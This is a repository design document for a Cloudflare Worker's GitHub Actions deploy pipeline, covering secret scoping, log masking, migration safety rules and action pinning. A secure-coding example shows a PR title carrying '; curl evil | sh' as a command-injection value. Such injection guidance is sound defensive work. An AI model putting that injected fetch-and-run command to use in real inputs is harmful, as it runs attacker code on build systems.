

# Worker CI/CD: design

Status: design for the workstream #196 (this doc) -> #199 (owner: token, environments, decisions) -> #197 (CI-safe smoke) and #198 (migration lint) -> #200 (CI workflow) -> #201 (deploy workflow) -> #202 (migrations before deploy) -> #203 (runbook and doc updates). This file is the contract for #197-#203: names, rules and job graph are fixed here. If an implementation ticket finds that something here is wrong, it comments on #196 and the doc is corrected first.

Every claim is tagged:

- **[V]** verified by the author (a repo file, a command output or an official page; the source is named).
- **[R]** not verified (no source found or not testable without production). A later ticket must verify it or accept the risk; the "How to find out" is given where possible.
- **[P]** a proposal (a design decision, not a fact).

Public repo: this doc contains no secret values, no account id, no D1 id and no workers.dev subdomain, and neither may anything derived from it.

## 1. Context and goal

- The Worker (`worker/`) is deployed by hand today: `pnpm exec wrangler deploy -c wrangler.local.toml` from `worker/`, with the real D1 id only in the gitignored `worker/wrangler.local.toml` [V CLAUDE.md, docs/architecture.md section 4].
- Migration `0002_library_indexes.sql` had to be applied to production by the owner by hand, because the agents' permission system denies production changes [V #122, ticket text of #196]. The workflow is the sanctioned path from now on; the hand-applied 0002 is the last exception.
- Owner request (2026-10-11): the Worker deploys and D1 migrations apply automatically on merge to master [V #196].
- Owner decision (2026-10-11): a Cloudflare API token may live as a GitHub **environment** secret for the Worker deploy only, and (second decision, same day) it is the owner's existing token, not a new scoped one (section 3 rule 1). The earlier "GitHub is not used for secrets" text was about the removed ingest workflow and stays true for ingest [V #196]. The old `ingest` environment (#75) is unrelated.
- Agents never touch production: agents write and review workflow files, the owner creates the secrets and environments, the run is triggered by the merge [V #196].
- The Worker's own secrets (`TG_BOT_TOKEN`, `SUBSONIC_USER`, `SUBSONIC_PASSWORD`) stay in Cloudflare and are never given to GitHub [V #199]. `worker/wrangler.toml` has no `[vars]`, so a deploy changes none of them [V worker/wrangler.toml]. That deploy preserves existing secrets is the normal Workers behaviour [R]: #201 must state in its PR how it was checked (first real run, then `wrangler secret list` by the owner).

## 2. Pipeline stages



Text form:

| Event | What runs | Secrets | Result |
| --- | --- | --- | --- |
| `pull_request` (any change) | `ci.yml`: `changes`, then, when `worker/` or a workflow changed, `lint` (`pnpm install --frozen-lockfile --ignore-scripts`, `pnpm exec tsc --noEmit`, immutable migrations, migration lint on migrations added by the PR) and `tests` (migration lint tests, `pnpm test` Vitest), and `version` | none | pass/fail checks `changes`, `lint`, `tests` (the required ones) |
| `merge_group` (merge queue) | `ci.yml`, the same jobs; nothing else | none | pass/fail checks `changes`, `lint`, `tests` on the queue commit |
| `push` to master | `ci.yml`: the same checks, then, when `changes` succeeded and `lint` and `tests` succeeded in the same run (skipped only for a docs-only push) and `worker/` differs from the last production deployment (the step "Anything to deploy" in `plan`), the jobs `plan` -> `ship` (the migrations first, then the deploy and the health check, in ONE job, #312) -> `release` of the same file | environment secrets only in `ship` | production updated |
| `workflow_dispatch` on master | `ci.yml`: the checks (base = the parent of the head) and the deploy jobs, whatever changed (emergency or re-run) | as above | production updated |

Failure behaviour [P]:

- A migration step fails -> the job `ship` stops there (default step semantics: no later step runs except the two summary steps), so the deploy steps never run; the run is red; production keeps the old Worker code (which works with and without the new migration, section 5.1).
- `wrangler d1 migrations apply`: if a migration errors, "this migration will be rolled back, and the previous successful migration will remain applied" [V https://developers.cloudflare.com/d1/wrangler-commands/]. Whether a multi-statement migration file is atomic is not stated on that page [R]. Do not rely on atomicity: that is why the Time Travel bookmark is recorded first.
- Deploy fails -> the migrations stay applied (additive, harmless) and the job `ship` is red; fix forward or roll back the Worker (section 9). A failed `ship` writes no success deployment record, so BASE does not move (section 12.2).
- Health check fails (after a successful migration and deploy) -> the job `ship` and the run are red and the summary prints the `wrangler rollback` command; the recovery is a `workflow_dispatch` of CI on master (or the next push). No automatic rollback [P]: a rollback is itself a production change and needs a human decision.

File names [P]: `.github/workflows/ci.yml` (display name `CI`; #290 part 1 merged `version.yml` and `worker-ci.yml` into it) and, until #290 part 2, `.github/workflows/worker-deploy.yml` (display name `Worker deploy`); part 2 folded it into `ci.yml` as the jobs `plan`, `migrate` and `deploy` and deleted the file; #312 merged `migrate` and `deploy` into the one job `ship`. Check contexts added by part 2 (none required): `plan`, `ship` (before #312: `migrate`, `deploy`); by part 3: `release` (not required either).

Check names, before and after #307 (the status check CONTEXT is the job name; the UI shows `<workflow> / <job>`). The owner decided on 2026-10-14 (option C of #307) to remove the aggregating job `ci` and require the real jobs. The owner has already switched the master ruleset (24840419, integration 15368; #308 comments "phase 1 done" and "phase 2 done"); the ruleset is edited only by the owner, never by CI or an agent:

| | Before #307 | After #307 |
| --- | --- | --- |
| Required checks, contexts | `changes`, `lint`, `tests` (the owner's early phase 1 and 2; before them: `ci`) | `changes`, `lint`, `tests` (`ci` exists nowhere) |
| The aggregating gate | the job `ci` (UI: `CI / ci`), unrequired since the owner's phase 2 | none; `plan` and `release` name the results of `changes`, `lint` and `tests` themselves |
| Version job, context (not required) | `version` (UI: `CI / version`) | `version` (unchanged) |
| Other check contexts (not required) | `plan`, `ship`, `release` | unchanged |
| Report check runs (not required) | `Test Report`, `Test Report (Vitest)` | unchanged |
| Reports on | `pull_request`, `push` (every master push), `merge_group` | unchanged |

Since a SKIPPED required job counts as passed, the skip hole is closed in code and not by a ruleset setting: `changes` fails closed (section 12.1), `lint` and `tests` have no condition but `worker_changed == 'true'` and run on `pull_request`, `push` and `merge_group`. Consequence of the owner's choice: every change of the SET of required checks (a new required job, a rename) needs an owner edit of the ruleset, and a renamed required job whose old context is still required would block the merge queue until the 60-minute timeout (there are no bypass actors).

## 3. Security model

1. **Token (owner decision, 2026-10-11: no separate token, use the existing one).** The pipeline uses the owner's EXISTING Cloudflare API token, the same one that is in the owner's local `.env` as `CLOUDFLARE_API_TOKEN`. It is stored as the GitHub environment secret `CLOUDFLARE_API_TOKEN` (wrangler's own variable name [V https://developers.cloudflare.com/workers/wrangler/system-environment-variables/]) in `production` and `production-destructive`, and nowhere else. **Accepted risk:** this token is broad, its exact scope is unknown to this document [R], and a leak gives an attacker whatever the token allows in the account. The owner decided this; the document does not re-argue it. Because the token is broad, every other control below carries more weight and none of them is optional.
2. **Where the secret may live (hard rules).** (a) ONLY as an environment secret of `production` and `production-destructive`. NO repository-level secret and NO organisation-level secret may be added for this pipeline, under any name (accepted exception, owner decision 2026-10-11, #264: the organisation secrets `CLOUDFLARE_ACCOUNT_ID` (not a credential), `NPM_TOKEN` and `SENTRY_AUTH_TOKEN` remain visible to this repository; `CLOUDFLARE_API_TOKEN` is no longer visible): repository secrets are delivered to `pull_request` runs of branches in the same repository, so a single repository-level secret would put the token in reach of any PR author with write access [R: stated by the GitHub secrets docs for forks only, the same-repo case is the standard GitHub behaviour, not read in the pages fetched here]. (b) An environment secret is delivered only to a job that references that environment (`environment: production`), and only if the deployment branch policy allows the ref. (c) The policy of both environments is "selected branches" with the exact branch name `master` (not a pattern, not tags). A PR ref (`refs/pull/N/merge`) or a feature branch is refused by that policy, so a PR that edits the workflow to add `environment: production` gets nothing [P; GitHub environment behaviour [R] until the owner's first test]. `workflow_dispatch` additionally checks `github.ref == 'refs/heads/master'` in the job `if:` [P]. The owner verifies (a) and (c) in the owner ticket #199 with `gh secret list` (repo and org) and the environment settings.
3. **No `pull_request_target`**, anywhere [P]. Pull request builds get no secrets and no deploy. GitHub does not pass secrets to workflows triggered from forks, except `GITHUB_TOKEN` [V https://docs.github.com/en/actions/how-tos/security-for-github-actions/security-guides/using-secrets-in-github-actions]. The CI workflow references no secret and no `environment:` at all. The same-repo case is covered by rule 2.
4. **Permissions.** Top-level `permissions: contents: read` in `ci.yml`; widened per job only where needed: `pull-requests: read` and `deployments: read` on the `plan` job (it asks which PR a merge commit belongs to and which commit was last deployed to `production`). Nothing gets `write` [P], with one exception (#289): the job `tests` of `ci.yml` has `checks: write`, set at job level only, so that the "Test Report" step can create its check run (section 12.1). Never `pull-requests: write` (the report comments are off), never `write` in the deploy jobs (`plan`, `ship`). Second exception (#290 part 3, owner decision (a) of 2026-10-14): the job `release` has `contents: write`, at job level only, to create the tag and the GitHub Release with the job's `GITHUB_TOKEN`; it has no environment, no deploy secret and no Cloudflare variable, and the workflow tests assert that `contents: write` appears exactly once in the file (section 12.5).
5. **Concurrency.** One WORKFLOW-level group in `ci.yml`: a push to master and a `workflow_dispatch` from master are in the group `worker-deploy` with `cancel-in-progress: false` (whole runs are serialized in push order; a running run, so a running `ship` or a `ship` waiting for approval, is never cancelled) [P]; `pull_request` has a group per PR ref and cancels only for the actions opened, reopened and synchronize; every other run (merge_group, a dispatch from another ref) has its own run id as group and is never cancelled or replaced. GitHub keeps at most one pending run per group and replaces an older pending run with a newer one [R]. Why the group is workflow-level and not on the deploy jobs: a job enters a job-level group when its `needs` finish, i.e. in the order the checks finish, not in push order, so a newer pending `plan` could be cancelled by an older one whose guard then skips (master is ahead): neither commit would deploy. With the workflow-level group the replaced pending run is always OLDER than the survivor, and the survivor's `plan` asks what is live (`worker/` at its commit vs BASE, the commit of the newest deployment record with a success status in `production` or `production-destructive`, step "Anything to deploy"), so it deploys what the replaced run would have deployed, also when the survivor is a docs-only push. Limits: BASE moves when the job `ship` succeeds (GitHub writes one deployment record per job with an `environment:`, so one per commit, in `production` or in `production-destructive`; #312), so after a failed `ship` (a failed deploy or health check, even after a successful migration) BASE stays on the older commit; the recovery is a `workflow_dispatch` of CI on master, which deploys whatever the state (the next push also compares `worker/` with the older BASE and deploys again). A dispatch for "redeploy identical code" is a run in the same group and can itself be replaced while pending by a newer push run: dispatch again. No job has its own `concurrency:` (the same group name at both levels would deadlock the run); a test asserts this. As a guard against an older run executing after a newer one, the `plan` job fails (or no-ops) when `github.sha` is not the current head of master [P].
6. **Logs free of secrets.**
   - Secrets are passed as `env:` of the single step that needs them, never inline in the `run:` text, never as arguments [P].
   - Environment secrets are masked in logs by GitHub; GitHub warns that anything that is not a GitHub secret must be registered with `::add-mask::` before it is printed [V https://docs.github.com/en/actions/how-tos/security-for-github-actions/security-guides/using-secrets-in-github-actions]. Masking replaces the exact string only (and per whitespace-separated word); derived or re-encoded forms are not masked [V https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-commands for add-mask semantics; the "derived form" caveat is [R]]. Therefore: no `set -x`, no `echo` of any id, no `wrangler --verbose`, no `WRANGLER_LOG=debug`, never print the generated config file [P].
   - The job summary (`$GITHUB_STEP_SUMMARY`) also masks secrets automatically [V workflow-commands page], but the design puts only non-secret facts there: git SHA, version id, Time Travel bookmark, names of applied migrations.
   - Not logged by design: token, account id, D1 id, Worker public URL (section 4.3).
7. **No user-controlled text in shell.** Untrusted values (`github.event.*`, `github.head_ref`, `github.ref_name`, PR titles, branch names, label names) are NEVER interpolated into a `run:` script: they go through `env:` and are used as `"$VAR"`. Decisions on labels are made in an `if:` expression on the event payload, never inside a script [P]. Example:

   ```yaml
   # WRONG: the title is pasted into the shell text, so a title like  "; curl evil | sh  runs
   - run: echo "PR is ${{ github.event.pull_request.title }}"
   # RIGHT: the value is data in an environment variable
   - env:
       PR_TITLE: ${{ github.event.pull_request.title }}
     run: echo "PR is $PR_TITLE"
   ```
8. **Third parties:** only three actions, pinned to full SHAs (section 6). No third-party action ever receives the Cloudflare token: wrangler is plain `pnpm exec wrangler` from the lockfile. The only third-party action that receives the default `GITHUB_TOKEN` is `mikepenz/action-junit-report` in the job `tests` of `ci.yml` (#289), with `checks: write` and nothing else.
9. **Blast radius if the token leaks (accepted risk, [R] exact scope unknown).** With a broad token an attacker can do whatever the token's permissions allow in the account: at least deploy or replace Workers scripts, read or edit D1 (including deleting data), and possibly more (other products, zones, DNS), depending on what the owner granted when it was created; this document cannot know. Consequences specific to this project: replace the Worker code (e.g. exfiltrate the Worker's secrets `TG_BOT_TOKEN`, `SUBSONIC_*` by deploying code that reads them), read or destroy the library metadata. Detection [P]: unexpected Worker versions in `wrangler deployments list` / the Cloudflare audit log (Cloudflare dashboard, account audit logs [R: exact availability per plan]), unexpected runs or an unreviewed run of "Worker deploy" in GitHub Actions, failing health check. Recovery [P], in this order: (1) revoke the token in the Cloudflare dashboard (this stops the pipeline and the owner's local tooling at once); (2) `wrangler rollback` to the last known good version, or redeploy from master with the new token; (3) if D1 was touched, Time Travel restore to a bookmark before the incident (section 9.2); (4) rotate the Worker secrets (`TG_BOT_TOKEN` via BotFather, `SUBSONIC_PASSWORD`) if the Worker code could have been replaced, per docs/architecture.md section 4; (5) create a new token, update the environment secrets (rotation, below), review the Actions run list.
10. **Rotation.** The same token is in two places: the owner's local `.env` and the two GitHub environment secrets. The owner rotates it in the Cloudflare dashboard (roll or recreate the token), then updates the local `.env` and BOTH environment secrets (`gh secret set CLOUDFLARE_API_TOKEN --env production` and `--env production-destructive`, value typed at the prompt, never pasted into a command line, chat or ticket), then checks that a `workflow_dispatch` run still passes. Rotating one place only breaks the other. A calendar reminder with an expiry date is recommended [P].
11. **The PR + review flow is a convention today, not a control.** On master the only rules are `deletion` and `non_fast_forward` (`gh api repos/kolenkainc/cowlic/rules/branches/master` returned exactly `deletion` and `non_fast_forward`, checked by the author and the reviewer on 2026-10-11 [V]): there is no required pull request, no required review and no required status check. Anyone with write access can push directly to master, and a push to master deploys to production with the broad token. The "no required reviewers on `production`" default (section 10) is only sound if master is actually protected. Recommendation [P], an owner decision in #199: a repository ruleset for master that (a) requires a pull request, (b) requires the status checks `changes`, `lint` and `tests` (#307; it was the single check `ci` until then), (c) requires 0 approvals, and (d) blocks direct pushes (bypass list empty or the owner only for emergencies). Why 0 approvals: the flow is agent-authored PR -> pr-reviewer comment and label -> merge by the ticket-worker; the owner is not an approver and a required approval would block that flow; the independent review stays a convention enforced by the label check described in CLAUDE.md, while the ruleset enforces the technical minimum (PR + green CI). With the ruleset the agent flow is unchanged: the ticket-worker opens a PR, waits for the check and the review label, and merges the PR through `gh pr merge --squash`, which the ruleset allows when `changes`, `lint` and `tests` are green. Without the ruleset the owner accepts that any push to master is a production deploy.

## 4. Injecting the real ids without writing them to the repo or the log

### 4.1 Facts

- `worker/wrangler.toml` has `database_id = "REPLACE_AFTER_d1_create"`, `database_name = "cowlic"`, `migrations_dir = "migrations"` and no `account_id` [V worker/wrangler.toml]. It stays that way: the placeholder is never replaced in the repo.
- Wrangler reads the account from the environment variable `CLOUDFLARE_ACCOUNT_ID` ("The account ID for the Workers related account") [V https://developers.cloudflare.com/workers/wrangler/system-environment-variables/]. So the account id needs no file at all: it is only an `env:` entry of the wrangler step.
- The D1 id must be inside a config file passed with `--config` (`-c` works in the repo's own commands, e.g. `pnpm exec wrangler deploy -c wrangler.local.toml` [V CLAUDE.md]; the Cloudflare commands page documents `--config` generally [V https://developers.cloudflare.com/workers/wrangler/commands/workers/]).
- Wrangler resolves `main` and `migrations_dir` relative to the config file location [R: standard behaviour, not read in the docs here]. Therefore the runner-local config must be written next to `wrangler.toml`, in `worker/`, not in `$RUNNER_TEMP`. #201 confirms it with a dry run (`wrangler deploy --dry-run -c wrangler.ci.toml`, no secrets needed, to be run in the rehearsal) [P].

### 4.2 Exact procedure (one small step, used by `ship`; before #312 by `migrate` and `deploy`)

Step "Write runner-local wrangler config" in `worker/`, with `env: D1_DATABASE_ID: ${{ secrets.D1_DATABASE_ID }}` and nothing else from secrets [P]:

1. **Validate first, mask second** (a Node script reading `process.env.D1_DATABASE_ID`, no echo): the value must match the D1 id format (a lowercase UUID: `^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$`; the whole string, single line). On mismatch the step fails with a fixed generic message and prints NO value (allowlist, reject invalid, never sanitise) [P; D1 ids being UUIDs is [R], the first run proves it].
2. Only after validation, `echo "::add-mask::$D1_DATABASE_ID"` (belt and braces: environment secrets are already masked by GitHub; add-mask also covers the value where GitHub's own detection could miss it; because the value is already known to be a single-line UUID, it cannot smuggle workflow commands) [V add-mask semantics: workflow-commands page; the ordering is [P]]. This step has to run before anything else prints the value.
3. Substitute the placeholder with a tiny Node script reading `process.env.D1_DATABASE_ID` (no shell expansion of the value in script text, no `sed` delimiter issues) [P]. It reads `wrangler.toml`, requires that the placeholder occurs exactly once, replaces it, writes `wrangler.ci.toml` with mode 600 [P].
4. Assert the result does not contain the placeholder and print only a fixed text such as `runner-local config written` [P]. Never `cat` the file.
5. Later wrangler steps use `-c wrangler.ci.toml`. The file lives only on the ephemeral runner, is never uploaded (no `upload-artifact` is used anywhere: not in the audit table [P]), never committed. **`.gitignore` on master covers `wrangler.local.toml` but NOT `wrangler.ci.toml` [V .gitignore, checked 2026-10-11].** The line `wrangler.ci.toml` (same style as the existing `wrangler.local.toml` entry) is added to `.gitignore` in the same PR as this design (PR #206), so it is in place before any step writes the file; without it a local `git add .` could commit the real D1 id to a public repo. `actions/checkout` uses `persist-credentials: false`, so the job has no git credentials to push with anyway [P].
6. The deploy step runs `pnpm exec wrangler deploy -c wrangler.ci.toml` with the two Cloudflare environment secrets scoped to that step. Installs use exact pnpm 10.34.7, `--frozen-lockfile --ignore-scripts`, and no secrets. The workspace also disables install scripts and implicit manager/dependency downloads. Native binaries come from locked optional packages: the clean pnpm install passes all 320 Worker tests, including real local workerd/D1 smoke tests, without lifecycle scripts (#383). See [js-workspace.md](js-workspace.md) for bootstrap, package isolation and dependency-import evidence.

How masking is guaranteed, honestly: GitHub masks exact secret values in logs and summaries, and the design adds `::add-mask::` and forbids printing. It is not an absolute guarantee: a program that prints a transformed value (base64, split, URL-encoded) would not be masked [R]. So the design also (a) never prints the value ourselves, (b) uses no verbose wrangler logging, and (c) requires the reviewer to check the first real run's log for the account id, D1 id and workers.dev host (#201 verification step) [P]. Wrangler's normal deploy output lists bindings and, for workers.dev, the public URL [R]; if it printed the D1 id, masking replaces it with `***`.

### 4.3 The Worker's public URL (health check)

The Worker is public by design (every endpoint but the 404 is behind Subsonic auth), so the host is not a secret in itself; certificate transparency logs and DNS reveal workers.dev hostnames anyway. The aim here is only to keep the account subdomain out of the PUBLIC run logs. `wrangler deploy` prints the workers.dev URL in its output (the owner's own terminal output shows it) [V as reported by the reviewer; the doc cannot test it without deploying], and the log of a public repository is public, so masking is the only protection.

Recommendation [P]: store it as the environment secret `WORKER_URL` (full base URL), not a variable (a variable is plain text). #201 and #199 said "variable"; they change (section 13). GitHub's masking replaces the exact string only: if wrangler prints the bare host, or the URL without scheme or with a trailing slash, the full-URL secret alone would NOT hide it. So the step that handles `WORKER_URL` (a) validates it (must parse as an `https:` URL, no credentials, no path beyond `/`), (b) derives the hostname and registers `::add-mask::` for the full URL, the host, and the account subdomain label (the part between the Worker name and `workers.dev`), each as its own value, (c) runs before the deploy step prints anything, in the job `ship` (the former `deploy` job). The first real run's log is scanned for the host and the subdomain label as a hard acceptance item of #201 [P].

Secret inventory in the environments: `CLOUDFLARE_API_TOKEN`, `CLOUDFLARE_ACCOUNT_ID`, `D1_DATABASE_ID`, `WORKER_URL`: four names in BOTH `production` and `production-destructive` (#312: the one job `ship` runs in either environment and does the migrations, the deploy and the health check, so it needs all four in both; `WORKER_URL` was added to `production-destructive` by the owner step #313) [P]. This is the single count used everywhere in this document.

### 4.4 Alternatives considered

- **Commit the real D1 id** (it is not a credential on its own): lost. The repo rule says the real id lives only in the gitignored local file, and a public repo should not publish account infrastructure ids [V CLAUDE.md].
- **Generate the whole config in the workflow with a heredoc:** lost: it duplicates `wrangler.toml` and silently drifts when someone adds a binding or changes `compatibility_date`. The substitution keeps `wrangler.toml` the single source.
- **Pass the id as a wrangler CLI flag or `--var`:** lost: bindings cannot be overridden that way [R], and CLI arguments appear in process listings and are more likely to be echoed.
- **Use an env-substituting config feature in wrangler:** none known for `database_id` in `wrangler.toml` [R]; not relied on.
- **A `D1_DATABASE_ID` repository variable instead of secret:** lost: visible in logs.

## 5. Migration safety rules (spec for #198 lint and #202 migrations job)

### 5.1 Rules

1. **Order: migrate first, deploy second.** Enforced by the step order inside the one job `ship` (#312; before it by `needs: migrate` on `deploy`): a failed migration step stops the job, so no deploy step runs; the workflow tests model the step conditions for a failure of every step [P].
2. **Code must work with and without the new migration.** The Worker that is live during the window between migrate and deploy is the OLD code on the NEW schema, and a rollback of the Worker leaves the NEW schema under OLD code. So every change is two-step (expand, then later contract). The #122 indexes are the model: queries were correct with or without them [V worker/migrations/0002_library_indexes.sql, header comment]. The PR template or runbook (#203) states this rule.
3. **Only additive and idempotent migrations run unattended:** `CREATE TABLE/INDEX/VIEW/TRIGGER ... IF NOT EXISTS`, `ALTER TABLE ... ADD COLUMN` (additive; not idempotent, flagged as a warning, because D1 tracks applied migrations in `d1_migrations`) [P; `d1_migrations` table V https://developers.cloudflare.com/d1/reference/migrations/].
4. **Lint rules: the header of `worker/scripts/lint-migrations.mjs` is the authoritative list** (destructive rules, the `missing-if-not-exists` requirement, the ADD COLUMN warning, pragma and schema-write rules, tautology-suspect WHERE conditions, handling of comments, string literals and quoted names, exit codes, and the `lint-migrations: ` prefix on every output line; read in PR #205 at the time of writing [V gh pr diff 205, may still change in review]). This document keeps only the policy: destructive statements (DROP, ALTER ... DROP, RENAME, DELETE and UPDATE without a real WHERE, TRUNCATE-like patterns, writes to the schema) need the label plus the approval of rule 6; CREATE without `IF NOT EXISTS` is rejected on the unattended path; the lint fails closed when unsure (exit 2); rollback statements inside SQL comments (as in 0002's header) must not trigger it [V 0002 file]. If the header and this text ever differ, the header wins and this paragraph is corrected.
5. **Existing files and the first run.** `0001_init.sql` uses `CREATE TABLE` without `IF NOT EXISTS` [V worker/migrations/0001_init.sql]. On 2026-10-11 the coordinator checked READ-ONLY that the remote `d1_migrations` table records exactly `0001_init.sql` and `0002_library_indexes.sql` and that `wrangler d1 migrations list cowlic --remote` answers "No migrations to apply" [V, checked by the coordinator on that date; not re-run by the author]. So the first workflow run is a no-op for migrations and no owner confirmation step is needed. The lint only looks at new or pending migrations, never at 0001; `0002` passes (its `DROP INDEX IF EXISTS` rollback statements are in a comment).
5a. **Applied migrations are immutable [P].** The lint of #198 in default mode keeps only files NOT present in the base ref (`git ls-tree`, interface read in PR #205 at the time of writing: usage header of `worker/scripts/lint-migrations.mjs`: default base `origin/master`, `--base <ref>`, explicit file arguments, `--approved`, exit 0 safe / 1 findings / 2 usage or parse error, fail closed [V gh pr diff 205, may still change in review]). Consequence: an EDIT of an already applied migration is never linted, and D1 would never re-apply it, so the file in git would silently drift from the real schema. Therefore #200 adds a separate check (a step or job named `migrations-immutable`, part of `lint` (it is, since #307 removed the job `ci`) or its own check) that compares `migrations/` with the base ref and fails when any file that exists in the base ref is modified, renamed or deleted (`git diff --name-status --diff-filter=MRD <base>...HEAD -- worker/migrations`, no output allowed). Additions are covered by the lint of new files. Fixing a mistake in an applied migration is done with a NEW migration. No label bypasses this rule [P].
6. **Destructive migrations** need BOTH the PR label `destructive-migration-approved` AND the manual approval of the owner through the environment `production-destructive` (required reviewer: the owner). Label without approval: nothing runs. Approval without label: the lint fails. The label is a trigger for the route, not an authorisation: anyone with triage rights can add a label, only the environment reviewer can approve [P]. The owner creates the label if missing, through the planner (agents do not change repo settings) [V #200].
7. **Time Travel bookmark before applying**, written to the job summary together with the restore command; if the bookmark cannot be read, the job fails and nothing is applied (fail closed) [P].
8. **A failed migration stops the deploy** (job graph, section 2).
9. **No-op when nothing is pending:** `wrangler d1 migrations list DB --remote` lists unapplied migrations [V https://developers.cloudflare.com/d1/wrangler-commands/]; empty means a green no-op with the summary line "no pending migrations".
10. **Rollback rules** for a migration: either the rollback statements written as comments in the file, run by the owner, or a Time Travel restore (section 9).

### 5.2 Wrangler behaviour used, with verification status

| Command | Claim | Status |
| --- | --- | --- |
| `wrangler d1 migrations apply <DB> --remote` | applies unapplied migrations on the remote DB; asks for confirmation; "The confirmation step will be skipped" in CI, and "a backup will be captured" after applying | [V] flags and text: https://developers.cloudflare.com/d1/wrangler-commands/. The page does not define what counts as "CI" (probably a detected `CI` environment variable, which GitHub Actions sets) [R]: #202 must prove non-interactive behaviour in its first real run, and the job runs with a timeout (`timeout-minutes`) so a hidden prompt cannot hang it [P]. |
| `... migrations apply` default target | which DB is used when neither `--local` nor `--remote` is given | [R] the page does not say. Always pass the flag explicitly [P]. |
| `wrangler d1 migrations list <DB> --remote` | lists unapplied migrations | [V] same page. Output format for scripting [R]. |
| `wrangler d1 time-travel info <DB> [--timestamp] [--json]` | returns a bookmark for the current (or a past) point in time | [V] https://developers.cloudflare.com/d1/reference/time-travel/ and the commands page (`--json` is documented on the commands page, not on the Time Travel page). JSON shape (which field holds the bookmark) [R]: #202 reads it from a rehearsal against a throwaway local or non-production run, or parses defensively and fails closed if the field is missing. Requires Wrangler >= 3.4.0 and a database with `version: production` in `wrangler d1 info` [V time-travel page]; the repo's lockfile pins wrangler 4.149.0 [V pnpm-lock.yaml]. Whether this call works with the owner's token [R]: the token's scope is unknown to this document. |
| `wrangler d1 time-travel restore <DB> --bookmark=<B>` / `--timestamp=<T>` | overwrites the DB in place; returns a bookmark of the previous state so a restore can be undone; asks `OK to proceed (y/N)` | [V] time-travel page. No documented non-interactive flag [R]; so restore is a manual, interactive owner action, never done by the workflow. The account is on Free (owner statement, #331, 2026-10-15): retention is 7 days [R, documented limit, not tested against the account]; Workers Paid keeps 30 days [R]. |
| `wrangler deploy -c <file>` | deploys the Worker with that config | [V] repo usage (CLAUDE.md); `--config` documented https://developers.cloudflare.com/workers/wrangler/commands/workers/. |

## 6. Supply chain: action audit table

Rule [P]: the actions are `actions/checkout` and `actions/setup-node` (published by GitHub) and, since #289, `mikepenz/action-junit-report` (a real third party, used only in the job `tests` of `ci.yml`, never in a job with secrets or `environment:`). Every action is pinned to a full commit SHA with the version in a trailing comment (`uses: owner/repo@<sha> # vX.Y.Z`); a mutable tag such as `@v6` is never used. No `cloudflare/wrangler-action`, no cache action, no artifact action, no label or comment bot. A new third-party action needs an audit row in the table below in the same PR. The pins were resolved on 2026-10-11 with `gh api repos/<owner>/<repo>/git/ref/tags/<tag>` (both tags are lightweight tags that point directly to a commit, `object.type` = `commit`, so there is no annotated tag to dereference) and the commit dates read with `gh api repos/<owner>/<repo>/commits/<sha>` [V, commands run by the author]. The age rule: at least two weeks old on the day of the audit.

| Action | Version | Full commit SHA | Dates [V] | What it does | Why needed | Audit notes [V from the action's `action.yml` at that SHA] |
| --- | --- | --- | --- | --- | --- | --- |
| `actions/checkout` | v7.0.1 | `3d3c42e5aac5ba805825da76410c181273ba90b1` | commit 2026-07-17, release 2026-07-20 (83+ days) | clones the repo at the event SHA | the workflows need `worker/` | Runs on `node24`. Its `token` input defaults to the job's `GITHUB_TOKEN` and `persist-credentials` defaults to `true` (stores the token in the local git config): set `persist-credentials: false` so no credential stays on disk. It never receives the Cloudflare secrets: they are not in its `env:` and not in its `with:`. Job permission `contents: read` is enough. |
| `actions/setup-node` | v7.0.0 | `820762786026740c76f36085b0efc47a31fe5020` | commit 2026-07-14, release 2026-07-14 (89+ days) | installs a Node version on the runner | wrangler needs Node >= 22 (lockfile: `engines: node >= 22.0.0` for a dependency; [V pnpm-lock.yaml]) | Runs on `node24`. Downloads Node using the default `github.token` (`token` input default), nothing else. Has a post step for cache saving, so caching is switched off explicitly: `package-manager-cache: false` and no `cache:` input (an automatic cache is only active when `devEngines.packageManager` or the top-level `packageManager` field of `package.json` names npm; `worker/package.json` has neither [V], but explicit is safer: a shared cache is a poisoning surface for a job holding a deploy token) [P]. |
